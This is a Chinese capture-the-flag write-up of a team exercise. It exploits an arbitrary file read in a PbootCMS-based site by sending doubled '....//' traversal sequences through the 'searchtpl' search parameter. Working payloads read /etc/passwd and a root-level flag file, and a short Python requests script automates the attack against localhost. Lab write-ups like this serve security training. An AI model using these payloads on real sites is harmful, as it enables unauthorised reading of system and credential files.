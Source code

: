 # BreakIt — 队员互相破解漏洞（做题人视角的 WP & EXP)

## 漏洞一

 **任意文件读取漏洞**

> **/etc/passwd** ：Linux 系统保存用户信息及其工作目录的文件，权限是可读。

参考 [过往版本漏洞](https://xz.aliyun.com/t/7744#toc-0) ，此类漏洞大多存在 `../` 和 `\`  的过滤现象，可利用 **双写绕过** 解决。

以「PbootCMS」为模版的网站为实现搜索功能常使用「search」等标签，在 [PbootCMS英文站搜索结果页面包屑和标题翻译](https://www.srso.cn/seo/770.htm) 等在线文档中发现「searchtpl」属性名。

综合以上，反复多次试验找出了根目录

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`

![find_root_of_flag1_219](img/find_root_of_flag1_219.jpg)

猜想有「flag.php」或「flag」放在根目录或其子目录下，试验发现「flag」直接放在根目录下，成功拿到 flag

`?search=&searchtpl=....//....//....//....//....//....//....//....//flag`

![find_flag1_220](img/find_flag1_220.jpg)

利用「request 库」即可得到 flag

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=....//....//....//....//....//....//....//....//flag"))
```

